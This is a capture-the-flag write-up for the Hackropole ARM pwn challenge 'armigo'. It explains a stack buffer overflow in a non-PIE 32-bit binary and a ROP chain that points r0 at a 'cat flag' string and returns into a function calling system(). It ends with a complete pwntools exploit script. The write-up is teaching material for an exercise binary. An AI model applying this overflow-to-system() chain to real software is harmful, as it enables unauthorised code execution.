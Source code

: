 +++
title = "Hackropole | Armigo"
+++

# [Pwn] armigo | hackropole

* [1. Checksec](#checksec)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)

## Checksec

```bash
[*] '/home/botman/Documents/cybersec/CTF/solo/hackropole/pwn/armigo/armigo'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

## Writeup

So this is yet another ARM pwn challenge !
We begin by open the binary in ghidra and check the main function, firstly we see a bof and then we can see another interesting function called "debug", this one is interesting becauseit's look like it's run some shell commands

![main](/images/armigo/main.png)

So now we can look into debug and yes! it's take the first argument and run system with it

![debug](/images/armigo/debug.png)

Ok, cool but how can we use this command to get the flag ? 
We can going to build a really easy ROP with a pop r0 with a command like "/bin/bash" or "cat flag" and then ret to debug no ?
Firstly we're gonna check i there is some string who can help us and yes, we can find the string "cat flag" at the address *0x000733fc*

![cat flag](/images/armigo/cat_flag.png)

Ok, so we just have to find a pop instruction and this should be easy because we have a big binary, and yes, it was easy

![pop](/images/armigo/pop.png)

So, i'm gonna summarize,
we have:
    - a pop instruction
    - a "cat flag" string
    - a debug function who run our shell command

so we're juste gonna build our rop like this:
```exploit
padding + pop + cat_flag + debug
```
this will pop r0 and lr (which is the "parente return address") and then put "cat flag" in r0 and debug addr in lr, after this there is a "bx lr" instruction which will jmp to our addr. 

and here we go, we got the flag

![flag](/images/armigo/flag.png)

## Full exploit

```python
from pwn import *

def exploit(io, elf, libc=None):
    padding = b"A"*68 
    pop = 0x000703c8 # pop {r0, lr}; bx lr;
    cat_flag = 0x000733fc # "cat flag"
    debug = 0x000104d8

    payload = padding + p32(pop) + p32(cat_flag) + p32(debug)

    io.sendlineafter(b'?\n', payload)
    io.recvline()
    flag = io.recvline().decode('utf-8')
    io.success(f'flag: {flag}')

```
[download here](/exploits/armigo.py)

**Writed by 0xB0tm4n**
